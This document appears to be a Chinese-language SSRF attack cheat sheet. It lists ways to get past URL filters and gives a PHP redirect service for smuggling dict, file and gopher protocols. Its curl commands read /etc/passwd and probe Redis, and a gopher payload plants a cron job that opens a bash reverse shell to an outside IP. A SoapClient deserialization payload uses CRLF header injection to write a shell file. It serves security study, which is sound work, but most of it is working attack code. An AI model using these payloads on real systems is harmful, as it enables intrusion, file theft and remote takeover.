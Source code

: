 # ssrf

## 绕过小技巧

1.http://baidu.com@www.baidu.com/与http://www.baidu.com/请求时是相同的

2.各种IP地址的进制转换

3.URL跳转绕过：http://www.hackersb.cn/redirect.php?url=http://192.168.0.1/

4.短网址绕过 http://t.cn/RwbLKDx

5.xip.io来绕过：http://xxx.192.168.0.1.xip.io/ == 192.168.0.1 (xxx 任意）

指向任意ip的域名：xip.io(37signals开发实现的定制DNS服务)

6.限制了子网段，可以加 :80 端口绕过。http://tieba.baidu.com/f/commit/share/openShareApi?url=http://10.42.7.78:80

7.探测内网域名，或者将自己的域名解析到内网ip

8.例如 http://10.153.138.81/ts.php , 修复时容易出现的获取host时以/分割来确定host，

但这样可以用 http://abc@10.153.138.81/ 绕过

## 收藏

 [https://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html](https://uknowsec.cn/posts/notes/SSRF漏洞的利用与学习.html) 

## 利用302跳转等来绕过协议限制

当URL存在临时(302)或永久(301)跳转时，则继续请求跳转后的URL

那么我们可以通过HTTP(S)的链接302跳转到gopher协议上。

我们继续构造一个302跳转服务，代码如下302.php:

```php
<?php  
    $schema = $_GET['s'];
	$ip     = $_GET['i'];
	$port   = $_GET['p'];
	$query  = $_GET['q'];
	if(empty($port))
    {      
		header("Location:$schema://$ip/$query"); 
    }else 
    {
        header("Location: $schema://$ip:$port/$query"); 
    }
```



#### 利用测试

```
# dict protocol - 探测Redisdict://127.0.0.1:6379/info  curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=dict&i=127.0.0.1&port=6379&query=info'# file protocol - 任意文件读取curl -vvv 'http://sec.com:8082/ssrf2.php?url=http://sec.com:8082/302.php?s=file&query=/etc/passwd'# gopher protocol - 一键反弹Bash# * 注意: gopher跳转的时候转义和`url`入参的方式有些区别curl -vvv 'http://sec.com:8082/ssrf_only_http_s.php?url=http://sec.com:8082/302.php?s=gopher&i=127.0.0.1&p=6389&query=_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0  a%0a%0a*/1%20*%20*%20*%20*%20bash%20-i%20>&%20/dev/tcp/103.21.140.84/6789%200>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d  %0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```



## soap

 https://www.anquanke.com/post/id/153065#h2-5 

### 利用条件

调用soap的`__call`方法

### payload

```
<?php
$target = 'http://127.0.0.1/test.php';
$post_string = '1=file_put_contents("shell.php", "<?php phpinfo();?>");';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: xxxx=1234'
    );
$b = new SoapClient(null,array('location' => $target,
'user_agent'=>'wupco^^Content-Type:application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length:'.(string)strlen($post_string).'^^^^'.$post_string,
'uri'=> "aaab"));
//因为user-agent是可以控制的，因此可以利用crlf注入http头来发送post请求
$aaa = serialize($b);
$aaa = str_replace('^^','%0d%0a',$aaa);
$aaa = str_replace('&','%26',$aaa);

$c=unserialize(urldecode($aaa));
$c->ss();  //调用_call方法触发网络请求发送
?>
```



